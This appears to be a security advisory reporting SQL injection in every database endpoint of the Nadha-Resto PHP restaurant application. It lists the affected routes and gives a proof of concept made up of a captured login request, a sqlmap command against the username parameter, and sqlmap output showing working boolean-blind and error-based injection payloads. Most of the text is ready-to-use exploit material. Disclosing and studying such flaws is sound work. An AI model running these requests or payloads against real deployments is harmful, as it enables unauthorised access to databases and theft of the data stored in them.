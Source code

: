 We have discovered SQL Injection vulnerabilities **in all endpoint** that interacts with the database. The following are examples of such endpoints:

- POST /Nadha-Resto/manajemenUser/getUser
- POST /Nadha-Resto/login/prosesLogin
- POST /Nadha-Resto/pesanan/cariPesanan
- POST /Nadha-Resto/home/saveTemp
- POST /Nadha-Resto/pengeluaran/prosesPengeluaran
- GET /Nadha-Resto/laporanTransaksi/laporanTransaksiBulan/*
- etc

> Note: All parameter on affected endpoint is vulnerable to SQL Injection.

This is an example PoC of how to exploit SQL Injection on a login page.

**login.txt**
```bash
POST /research/Nadha-Resto/login/prosesLogin/ HTTP/1.1
Host: localhost
Content-Length: 30
sec-ch-ua: "Chromium";v="119", "Not?A_Brand";v="24"
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.199 Safari/537.36
sec-ch-ua-platform: "Linux"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/research/Nadha-Resto/login
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=0ih5tir43a2qbjq8crthe8va81
Connection: close

username=admin&password=admin
```

SQLMap command:

```bash
sqlmap -r login.txt --flush-session -p username --batch
```

Example output:

```
...............................
[03:06:10] [INFO] testing 'MySQL UNION query (random number) - 61 to 80 columns'
[03:06:11] [INFO] testing 'MySQL UNION query (NULL) - 81 to 100 columns'
[03:06:11] [INFO] testing 'MySQL UNION query (random number) - 81 to 100 columns'
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 257 HTTP(s) requests:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: username=admin' AND 2517=2517 AND 'OxCP'='OxCP&password=admin

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: username=admin' AND (SELECT 2209 FROM(SELECT COUNT(*),CONCAT(0x716b717a71,(SELECT (ELT(2209=2209,1))),0x7178767a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'MZlr'='MZlr&password=admin

```